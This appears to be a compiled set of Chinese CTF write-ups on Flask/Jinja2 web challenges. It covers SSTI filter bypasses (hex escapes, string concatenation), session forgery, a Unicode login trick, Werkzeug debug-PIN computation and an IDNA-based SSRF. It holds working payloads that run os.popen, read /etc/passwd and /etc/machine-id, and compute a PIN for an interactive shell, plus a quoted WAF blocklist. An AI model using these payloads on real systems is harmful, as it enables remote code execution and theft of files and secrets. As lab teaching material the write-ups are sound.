{{config|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')}}
```

**1️⃣ `config`**

这是 Flask 应用中的配置对象（`flask.config.Config` 实例）。
 它继承自 Python 字典，存放应用配置。

------

**2️⃣ `|attr('\x5f\x5fclass\x5f\x5f')`**

这里的 `\x5f` 是下划线 `_` 的十六进制表示

- `\x5f\x5fclass\x5f\x5f` = `__class__`
- 所以这一步相当于 `config.__class__`，即得到类对象 `<class 'flask.config.Config'>`

------

**3️⃣ `|attr('\x5f\x5finit\x5f\x5f')`**

- 访问 `Config` 类的 `__init__` 方法（构造函数）
- 在 Python 里，方法本质上是 **函数对象**

------

**4️⃣ `|attr('\x5f\x5fglobals\x5f\x5f')`**

- 每个函数对象都有 `__globals__` 属性 → 它是一个字典，表示这个函数定义时的全局命名空间
- 也就是说，这里我们拿到了 `Config.__init__` 的全局变量字典

里面通常包含：

- `__builtins__`
- `os`
- `sys`
- 其他 Flask / Python 全局对象

------

**5️⃣ `|attr('\x5f\x5fgetitem\x5f\x5f')('os')`**

- `__getitem__` 是 Python 容器类型（比如字典）的取值方法，相当于 `dict['key']`

- 这里调用 `__getitem__('os')`，相当于：

  ```jinja2
  config.__class__.__init__.__globals__['os']
  ```

最后，我执行了读取标志的命令

```jinja2
{{ config | attr('\x5f\x5fclass\x5f\x5f') | attr('\x5f\x5finit\x5f\x5f') | attr('\x5f\x5fglobals\x5f\x5f') | attr('\x5f\x5fgetitem\x5f\x5f')('os') | attr('popen')('cat flag') | attr('read')() }}
```


<!-- Imported from D:\\Book\\Web\\Chapter11\11-12.md -->
### 十六进制编码绕过


我发现 Python 的属性访问（点符号 ( `.`)、下标语法 ( `[]`)、`getattr` 等等）和下划线都被列入了黑名单

通过分析 Jinja2 的过滤器，发现可以使用 `attr` 过滤器来访问对象属性，而无需使用 `.`

Python 字符串可以通过字节表示来绕过字符过滤，例如使用 `\x5f` 代替 `_`

使用 `attr()` 调用构建了一个链

```jinja2
{{config|attr('__class__')}}
```

`{{config|attr('__class__')}}` 会输出 config 对象的类型，即 flask.config.Config 类

**1️⃣ `config`**

`config` 是 **Flask 应用的配置对象**

它通常存储：

- `SECRET_KEY`
- 数据库连接字符串
- 调试模式开关
- 其他应用配置

**2️⃣ `|attr('__class__')`**

Jinja2 的 `attr` 过滤器允许访问对象的属性，相当于 Python 里的 `getattr(obj, attr_name)`

```jinja2
config|attr('__class__') == getattr(config, "__class__")
```

十六进制编码

```jinja2
{{config|attr('\x5f\x5fclass\x5f\x5f')}}
```

拿到 OS 模块

```jinja2
{{config|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')}}
```

**1️⃣ `config`**

这是 Flask 应用中的配置对象（`flask.config.Config` 实例）。
 它继承自 Python 字典，存放应用配置。

------

**2️⃣ `|attr('\x5f\x5fclass\x5f\x5f')`**

这里的 `\x5f` 是下划线 `_` 的十六进制表示

- `\x5f\x5fclass\x5f\x5f` = `__class__`
- 所以这一步相当于 `config.__class__`，即得到类对象 `<class 'flask.config.Config'>`

------

**3️⃣ `|attr('\x5f\x5finit\x5f\x5f')`**

- 访问 `Config` 类的 `__init__` 方法（构造函数）
- 在 Python 里，方法本质上是 **函数对象**

------

**4️⃣ `|attr('\x5f\x5fglobals\x5f\x5f')`**

- 每个函数对象都有 `__globals__` 属性 → 它是一个字典，表示这个函数定义时的全局命名空间
- 也就是说，这里我们拿到了 `Config.__init__` 的全局变量字典

里面通常包含：

- `__builtins__`
- `os`
- `sys`
- 其他 Flask / Python 全局对象

------

**5️⃣ `|attr('\x5f\x5fgetitem\x5f\x5f')('os')`**

- `__getitem__` 是 Python 容器类型（比如字典）的取值方法，相当于 `dict['key']`

- 这里调用 `__getitem__('os')`，相当于：

  ```jinja2
  config.__class__.__init__.__globals__['os']
  ```

最后，我执行了读取标志的命令

```jinja2
{{ config | attr('\x5f\x5fclass\x5f\x5f') | attr('\x5f\x5finit\x5f\x5f') | attr('\x5f\x5fglobals\x5f\x5f') | attr('\x5f\x5fgetitem\x5f\x5f')('os') | attr('popen')('cat flag') | attr('read')() }}
```


<!-- Imported from D:\\Book\\Web\\Chapter11\11-2.md -->
### Secret_key 泄露


查看注释得到提示


SECRET_KEY 用于加密和解密用户的会话 Cookie，以防止黑客通过篡改cookie来冒充用户

题目提示是模板注入，测试一下


直接访问拿到 flag，不懂这个 config 的可以去看第一节


<!-- Imported from D:\\Book\\Web\\Chapter11\11-3.md -->
### Session 伪造


注册账号登录提示不是 admin


继续查找发现网站源码泄露


Flask 框架仅对 session 进行了签名，签名的作用是防篡改而无法防止被读取

所以其 session 的全部内容都是可以在客户端读取的

假设现在我们有一串 session 值，可以使用以下脚本解密


解密后能看到 'name': '注册的用户名'，我们需要将用户名改为 admin 加密替换

加密就需要密码，但是 config.py 泄露了密码


打开 BurpSuite 抓包拦截，替换掉 Session 发送，成功拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter11\11-4.md -->
### Unicode 字符绕过 strlower()


检测源代码发现漏洞函数 strlower


跟进发现在登录和注册都有使用


原理就是这个函数处理字符串的过程


第一种字符就是 Unicode，具体字符形式可以在这个[网站](https://symbl.cc/en/1D2C/)上查找


先使用这个作为用户名注册，可以看到变为了 ADMIN


再次更改密码调用函数使其变为 admin


使用 admin 登录，密码为刚刚修改的密码，成功拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter11\11-5.md -->
### 模板注入攻击


访问 flag 回显了 IP


打开提示页面


右键源代码问怎么知道 IP 的


推测是获取了 XFF 来回显，打开 BurpSuite 抓包修改发现可控


修改为模板运算发现被执行了


改为 system 来执行命令


成功拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter11\11-6.md -->
### url_for 函数模板注入攻击


打开网页拿到源代码

```python
import flask
import os
 
app = flask.Flask(__name__)
 
app.config['FLAG'] = os.environ.pop('FLAG')
 
@app.route('/')
def index():
    return open(__file__).read()
 
@app.route('/shrine/<path:shrine>')
def shrine(shrine):
 
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{}'.format(c) for c in blacklist]) + s
 
    return flask.render_template_string(safe_jinja(shrine))
 
if __name__ == '__main__':
    app.run(debug=True)
```

第二个路由在 `/shrine/` 路径下提交参数

我们简单测试注入 `/shrine/{{2+2}}`


黑名单中过滤了 config 及 self

url_for() 会返回视图函数对应的URL

我们注入 `{url_for.__globals__}` 得到


继续注入当前 `app` 的 `config`


<!-- Imported from D:\\Book\\Web\\Chapter11\11-7.md -->
### 字符拼接绕过


打开网页是用 Flask 做的 Base64 加解密


测试 SSTI 注入


解密得到 7，说明解密处存在注入


在解密处随便输入字符发现报错信息


查看 decode() 函数发现有 waf


构造 payload 拿源码

```jinja2
[].__class__: 获取空列表的类，列表的类是 list
.__base__: 获取 list 类的基类，基类通常是 object
.__subclasses__(): 获取该类的所有子类
c.__name__: 这个属性返回类的名称
c.__init__: 获取 catch_warnings 类的构造方法（__init__）
.__globals__: 获取当前函数或方法的全局命名空间
['__builtins__']: 通过 __globals__ 字典访问 Python 内建模块 __builtins__
open('app.py', 'r').read(): 打开名为 app.py 的文件并读取其内容


   
    {{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}
   

```

```jinja2
{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}
```

先加密


解密拿到源码


关于 waf 代码如下

```
def waf(str):
      black_list = [&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;*&#34;,&#34;?&#34;]
  for x in black_list :
      if x in str.lower() :
      return 1
```

虽然过滤了很多，但是可以利用字符串拼接漏洞绕过

先查看目录

```jinja2

   
    {{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/') }}
   

```

```jinja2
{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}
```


构造 payload 拿到 flag

```jinja2
{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}
```


<!-- Imported from D:\\Book\\Web\\Chapter11\11-8.md -->
### 解密 PIN 码


查看提示是 PIN 码


可以知道 PIN 主要由 `probably_public_bits` 和 `private_bits` 两个列表变量决定，而这两个列表变量又由如下 6 个变量决定：

- `username` 启动这个 Flask 的用户
- `modname` 一般默认 flask.app
- `getattr(app, '__name__', getattr(app.__class__, '__name__'))` 一般默认 flask.app 为 Flask
- `getattr(mod, '__file__', None)`为 flask 目录下的一个 app.py 的绝对路径,可在爆错页面看到
- `str(uuid.getnode())` 则是网卡 MAC 地址的十进制表达式
- `get_machine_id()` 系统 id

从之前的报错中可以得到

- `modname`：`flask.app`
- `getattr(app, '__name__', getattr(app.__class__, '__name__'))`：`Flask`
- `getattr(mod, '__file__', None)`：`/usr/local/lib/python3.7/site-packages/flask/app.py`


构造 payload 读取 passwd 文件（看不懂参考上一节）

```jinja2

	
		{{x.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}
	

```

得到运行 Flask 的用户名：`flaskweb`


读 Mac 地址

```jinja2

	
		{{x.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address').read() }}
	

```


读系统 id

```jinja2

	
		{{x.__init__.__globals__['__builtins__'].open('/etc/machine-id').read() }}
	

```


用脚本生成 PIN 码

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '231530469832647',# str(uuid.getnode()),  /sys/class/net/eth0/address
    '1408f836b0ca514d796cbf8960e45fa1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

输入 PIN 码后可获取交互式 shell


<!-- Imported from D:\\Book\\Web\\Chapter11\11-9.md -->
### Unicdoe 编码绕过


打开网页给出了源代码

```python
@app.route('/getUrl', methods=['GET', 'POST'])

def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    # 去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

利用点在这里 `urllib.request.urlopen(finalUrl).read()`，只要前两次 `host != suctf.cc`，第三次 `host == suctf.cc` 即可

而这利用的关键在于 `newhost.append(h.encode('idna').decode('utf-8'))` 编码问题，`Unicode` 的很多字符经过这样的一番编码处理都可以得到正常的字母

```python
chars = ['s', 'u', 'c', 't', 'f']
for c in chars:
	for i in range(0x7f, 0x10FFFF):
		try:
			char_i = chr(i).encode('idna').decode('utf-8')
			if char_i == c:
				print('ASCII: {}   Unicode: {}    Number: {}'.format(c, chr(i), i))
		except:
			pass
```


任意去一个替换 `['s', 'u', 'c', 't', 'f']` 其中一个即可绕过

```python
/getUrl?url=file://𝑆uctf.cc/etc/passwd
```


然后是找 flag 位置，在 `Nginx` 的配置文件中

```python
/getUrl?url=file://𝑆uctf.cc/usr/local/nginx/conf/nginx.conf
```


```python
/getUrl?url=file://𝑆uctf.cc/usr/fffffflag
```


